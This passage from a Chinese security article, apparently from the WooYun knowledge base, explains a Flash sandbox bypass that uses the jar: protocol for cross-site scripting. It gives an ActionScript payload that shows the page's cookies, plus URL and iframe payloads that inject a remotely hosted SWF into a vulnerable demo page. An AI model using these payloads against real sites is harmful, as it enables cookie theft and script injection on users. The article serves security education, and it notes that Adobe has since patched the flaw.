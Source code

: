 AS2 示例：

```
getURL("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);","testme"); 

```

最后让我们来完成它。假设有一个存在 XSS 漏洞页面如下：

```
http://www.sdl.me/xssdemo/xss.asp?input=XSS_goes_here 
```

如果我们不使用 name,那么下面的方法只能应用于 firefox。

```
http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf> 
```

![2014021816544865336_png.jpg](img/img3_u98_jpg.jpg)

但是我们也可以使用 name 来让它变得可以在其它浏览器中执行。

```
<iframe name="testme" src="http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf>" height="240" width="320"></iframe>

```

这里的 embed 标签也可以被 object 标签所取代。不过最终 Adobe 出了个新补丁封杀了 jar 协议。印象中是上个月的 17 号出的。所以如果你想亲自测试一下可能需要你手动安装稍微老的 flash 版本。如果你是 kali linux 用户，并且喜欢使用 firefox 那么这个绕过 flash 沙箱的方法对你来说应该是轻易可以实现的（我没有特意去更新 FF 的 flash 插件，所以在我这里一直是可以用这个方法的）。

版权声明：未经授权禁止转载 [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：
